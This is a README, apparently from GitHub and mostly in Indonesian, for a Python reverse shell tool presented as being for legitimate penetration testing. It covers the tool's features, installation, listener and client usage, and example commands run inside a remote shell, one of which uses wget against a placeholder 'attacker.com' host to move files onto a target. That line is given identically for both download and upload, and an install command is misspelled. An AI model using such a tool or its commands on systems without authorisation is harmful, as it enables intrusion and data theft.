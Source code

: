 # Python Reverse Shell Tool
![carbon (1)](https://github.com/user-attachments/assets/bb463d32-d556-4743-af68-8ebd0b32510d)

Tool reverse shell sederhana berbasis Python untuk penetration testing yang sah.

## Fitur Utama

- 🚀 **Dual Mode**: Mode listener dan client
- 🔒 **Komunikasi Terenkripsi** (versi advanced)
- 📱 **Multi-Platform**: Bekerja di Windows, Linux, dan macOS
- 💻 **Shell Interaktif**
- 📡 **Port Customizable**

# Fitur Tambahan 
- Detailed logging to file
- Different log levels
- Critical error tracking
- Connection errors (timeout, refused, etc.)
- Command execution errors
- Listener setup errors
- Input validation
- Auto-reconnect mechanism
- Input validation for IP/port
- Better resource cleanup
- Graceful shutdown
- Proper socket cleanup
- Error messages don't reveal sensitive info
- Input sanitization
- Clear error messages
- Colorized output
- Helpful status messages


## Persyaratan

- Python 3.6+
- Modul `cryptography` (untuk versi enkripsi)
 ```console
 pip install cryptography
```
## Install
 ```console
git clone https://github.com/hidayat-tanjung/revershe
chomd +x reverse.py
python3 reverse.py
```

# Cara Penggunaan

1. Mode Listener (Target)
 ```console
 python3 reverse.py -l -p 5555
```

2. Mode Client (Attacker)
 ```console
python3 reverse.py -c <IP_TARGET> -p 5555
```

* Untuk Sistem Linux/Mac
```console
shell> ls          # Lihat isi direktori
shell> pwd         # Lihat direktori saat ini 
shell> ls -la      # Lihat semua file termasuk hidden
shell> tree        # Lihat struktur direktori (jika terinstall)
```
* Untuk Sistem Windows
```console
shell> dir         # Lihat isi direktori
shell> cd          # Lihat direktori saat ini
shell> tree        # Lihat struktur direktori
```
* Karakter khusus
```console
shell> cd "My Documents"
shell> cd /var/www/html
shell> ls
```
* Download direktori target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```
* Upoad File ke target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```

| Command | Description |
| --- | --- |
| -l | Jalankan sebagai listener |
| -c IP | Hubungkan ke listener di IP target |
| -p PORT | Tentukan port (default: 4444) |
| -i | Mode interaktif |
| -k KEY | Encryption key (versi advanced) |

# Troubleshooting
```console
sudo lsof -i :4444  # Cari proses yang menggunakan port
sudo kill -9 <PID>  # Hentikan proses
```
* Pastikan listener sudah berjalan di target
* Periksa firewall/network configuration
MIT License

Copyright (c) Izumy

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe/)
